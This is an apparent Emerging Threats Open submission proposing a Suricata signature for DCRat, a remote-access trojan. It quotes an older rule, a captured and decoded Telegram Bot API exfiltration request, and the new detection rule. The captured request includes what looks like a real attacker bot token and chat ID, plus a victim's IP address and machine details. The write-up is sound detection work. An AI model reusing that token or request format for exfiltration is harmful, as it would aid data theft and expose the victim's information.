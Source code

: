 # ET Open Submission
### January 9th, 2023
### DCRat Activity Detected


## Resources

1. https://tria.ge/230107-eynj2acf87/behavioral2
2. https://tria.ge/230107-fa3jqagb8t/behavioral3
3. https://app.any.run/tasks/f314829e-d378-445d-8749-43a465121737/


If I don't have anything here just let me know.

This [triage](https://tria.ge/230107-fa3jqagb8t/behavioral3) run for DCRat fired an older rule of **2034194**.

```alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE DCRAT Activity (GET)"; flow:established,to_server; http.method; content:"GET"; http.uri; content:".php?"; content: "&"; pcre: "/^(?:[a-f0-9]{2}){16}=(?:[a-f0-9]{2}){16}&(?:[a-f0-9]{2}){16}=(?=[a-z0-9A-Z]{0,32}[A-Z][a-z][A-Z][a-z][A-Z])/R"; http.header_names; content:"|0d 0a|Accept|0d 0a|Content-Type|0d 0a|User-Agent|0d 0a|Host|0d 0a|Connection|0d 0a 0d 0a|"; bsize:56; fast_pattern; reference:url,twitter.com/James_inthe_box/status/1448751827046985746; reference:md5,60cf8c1093d596a44dc997d00caae463; classtype:trojan-activity; sid:2034194; rev:2; metadata:attack_target Client_Endpoint, created_at 2021_10_15, deployment Perimeter, former_category MALWARE, signature_severity Major, updated_at 2021_10_15;)```

This newer [triage](https://tria.ge/230107-eynj2acf87/behavioral2) instance I found and re-ran did not trip anything but some informational alerts.

This is why I wrote a new signature to detect on the client>server pattern I keep seeing.

```
/bot5861146625:AAEHo1wi939JhVuLzstg9mWqpsc_ntWfbTQ/sendPhoto?chat_id=5058531872&caption=%E2%9D%95%20User%20connected%20%E2%9D%95%0A%E2%80%A2%20ID%3A%20a683d399ec4da81b2f69cbd3e01b93a58b431a4e%0A%E2%80%A2%20Comment%3A%2025.12-26.12%0A%0A%E2%80%A2%20User%20Name%3A%20Admin%0A%E2%80%A2%20PC%20Name%3A%20TMKNGOMU%0A%E2%80%A2%20OS%20Info%3A%20Windows%2010%20Pro%0A%0A%E2%80%A2%20IP%3A%20154.61.71.13%0A%E2%80%A2%20GEO%3A%20NL%20%2F%20Aalsmeerderbrug%0A%0A%E2%80%A2%20Working%20Directory%3A%20C%3A%5CUsers%5CAll%20Users%5CDesktop%5Cservices.exe
```

Once decoded an human readable, they always seem to come out very similar.


```
/bot5861146625:AAEHo1wi939JhVuLzstg9mWqpsc_ntWfbTQ/sendPhoto?chat_idP58531872&caption=❕ User connected ❕
• ID: a683d399ec4da81b2f69cbd3e01b93a58b431a4e
• Comment: 25.12-26.12

• User Name: Admin
• PC Name: TMKNGOMU
• OS Info: Windows 10 Pro

• IP: 154.61.71.13
• GEO: NL / Aalsmeerderbrug

• Working Directory: C:\Users\All Users\Desktop\services.exe
```

I generated a Flowsynth PCAP and built a signature based on it since the TLS was causing strange issues in the triage PCAP.

## Signature

```alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE DCRAT Activity"; flow:established,to_server; http.uri; content:"/bot";startswith; content:"|2f|sendPhoto|3f|chat|5f|id|3d|"; distance:0; content:"caption|3d e2 9d 95 20|User|20|connected|20 e2 9d 95|"; distance:10; within:65; content:"|e2 80 a2 20|ID|3a 20|"; within:65; content:"|e2 80 a2 20|Comment|3a 20|"; distance:40; within:35; content:"|0a 0a e2 80 a2 20|User|20|Name|3a 20|"; distance:11; within:27; content:"|e2 80 a2 20|PC|20|Name|3a 20|"; distance:0; within:100; content:"|e2 80 a2 20|OS|20|Info|3a 20|"; within:100; content:"|e2 80 a2 20|IP|3a 20|"; within:100; content:"|20|GEO|3a 20|"; distance:7; within:20;  content:"|e2 80 a2 20|Working|20|Directory|3a 20|"; within:100; http.host; content:"api.telegram.org"; fast_pattern; reference:url,https://tria.ge/230107-eynj2acf87/behavioral2; classtype:trojan-activity; sid:1; rev:1;)```


[Flowsynth PCAP](flowsynth.pcap)

[Re-Ran Full PCAP](raran-full.pcapng)

[Old Run PCAP](old-run.pcapng)

[Dalton Instance](https://dalton.centraliowacybersec.com)
